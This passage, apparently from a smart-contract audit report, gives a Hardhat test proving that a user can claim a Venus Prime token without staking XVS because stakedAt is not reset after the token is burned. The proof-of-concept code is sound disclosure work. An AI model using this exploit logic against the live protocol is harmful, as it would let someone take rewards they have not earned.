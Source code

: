 This way, Alice claimed a revocable token without having any XVS staked in the contract.

### Proof of Concept

Add the following line at the top of `tests/hardhat/Prime/Prime.ts`. We'll use this to simulate time passing

```javascript
import { time } from "@nomicfoundation/hardhat-network-helpers";
```

Paste the following inside `tests/hardhat/Prime/Prime.ts` and run `npx hardhat test tests/hardhat/Prime/Prime.ts`.

```javascript
it.only("User can get Prime token without any XVS staked", async () => {
      // User1 deposits 10k XVS
      await xvs.transfer(await user1.getAddress(), parseUnits("10000", 18));
      await xvs.connect(user1).approve(xvsVault.address, parseUnits("10000", 18));
      await xvsVault.connect(user1).deposit(xvs.address, 0, parseUnits("10000", 18));
      let userInfo = await xvsVault.getUserInfo(xvs.address, 0, user1.getAddress());
      expect(userInfo.amount).to.eq(parseUnits("10000", 18));

      // Venus decides to issue an irrevocable Prime token to User1 for staking such a large amount.
      // Note that the 90 day staking period still hasn't passed
      await prime.issue(true, [user1.getAddress()]);
      let token = await prime.tokens(user1.getAddress());
      expect(token.exists).to.be.equal(true);
      expect(token.isIrrevocable).to.be.equal(true);

      // User1 withdraws her entire balance XVS
      await xvsVault.connect(user1).requestWithdrawal(xvs.address, 0, parseUnits("10000", 18));
      userInfo = await xvsVault.getUserInfo(xvs.address, 0, user1.getAddress());
      expect(userInfo.pendingWithdrawals).to.eq(parseUnits("10000", 18));

      // User1's Prime token gets burned by protocol
      await prime.burn(user1.getAddress());
      token = await prime.tokens(user1.getAddress());
      expect(token.exists).to.be.equal(false);
      expect(token.isIrrevocable).to.be.equal(false);

      // 100 days pass
      await time.increase(8640000);

      // User1 can claim a revocable Prime token without any XVS staked, because his stakedAt wasn't reset to 0
      expect(prime.stakedAt(await user1.getAddress())).to.not.be.equal(0);

      await prime.connect(user1).claim();
      token = await prime.tokens(user1.getAddress());
      expect(token.exists).to.be.equal(true);
      expect(token.isIrrevocable).to.be.equal(false);
    });
```
